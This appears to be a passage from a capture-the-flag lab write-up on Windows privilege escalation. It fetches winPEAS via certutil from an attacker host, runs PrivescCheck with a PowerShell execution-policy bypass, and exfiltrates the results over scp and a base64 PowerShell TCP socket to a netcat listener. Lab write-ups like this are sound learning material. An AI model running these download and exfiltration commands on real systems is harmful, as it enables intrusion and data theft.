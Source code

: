 ![[Pasted image 20240308090434.png]]

With the command *systeminfo* we can get information about the running system:
![[Pasted image 20240308091740.png]]
## Privesc

### WinPEAS

For privilege escalation we use *winpeas* https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS.
Download the x64 executable and server it via HTTP:
```bash
python3 -m http.server
```
On the windows machine we can use the native OS command *certutil* to fetch the exe:
```cmd
certutil.exe -urlcache -f http://10.0.0.11:8000/winPEASx64.exe winPEASx64.exe
```

![[Pasted image 20240308091317.png]]
Run winpeas and see if we can find something usefull for privesc.
Unfortunately *winPEASx64.exe* (aswell as *winPEASx86.exe*) output errors.

We dont' follow the official solution cause winPEAS doesn't work for us.

## My solution
### PrivescCheck

Use another privesc script *PrivescCheck*. Download the ps1 file and execute it as follows:
```cmd
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```
This creates an output file *PrivescCheck_BUTLER.txt*.

**Transfer file with SCP**
We can transfer this file to our Kali machine via *scp*:
First start ssh server:
```bash
sudo systemctl start ssh
```
Transfer file:
```cmd
scp PrivescCheck_BUTLER.txt kali@10.0.0.11:~/Downloads/
```
Scp command didn't work, it just got stuck.

**Transfer file via TCP connection**
On kali:
```bash
nc -vlnp 9999 > PrivescCheck_BUTLER.txt
```
On Windows:
```
powershell -command "$butler=[System.Convert]::ToBase64String([io.file]::ReadAllBytes(\"PrivescCheck_BUTLER.txt\"));$socket=New-Object net.sockets.tcpclient('10.0.0.11',9999);$stream=$socket.GetStream();$writer=new-object System.IO.StreamWriter($stream);$buffer=new-object System.Byte[] 1024;$writer.WriteLine($butler);$socket.close()"
```
On kali:
```bash
cat PrivescCheck_BUTLER.txt | base64 -d
```
